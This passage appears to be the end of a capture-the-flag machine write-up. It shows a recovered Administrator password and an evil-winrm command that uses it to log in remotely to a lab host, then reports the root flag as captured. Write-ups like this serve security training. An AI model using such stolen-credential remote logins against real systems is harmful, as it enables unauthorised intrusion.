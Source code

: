 ```
Administrator : 5GpNlBb8E6&Ha)
```

---

## 10. Administrator Access

Connected using Evil-WinRM:

```bash
evil-winrm -i 10.10.11.158 -u 'Administrator' -p '5GpNlBb8E6&Ha)'
```

🏁 Root flag obtained from Martin's desktop.

---

# ✅ MACHINE FULLY ROOTED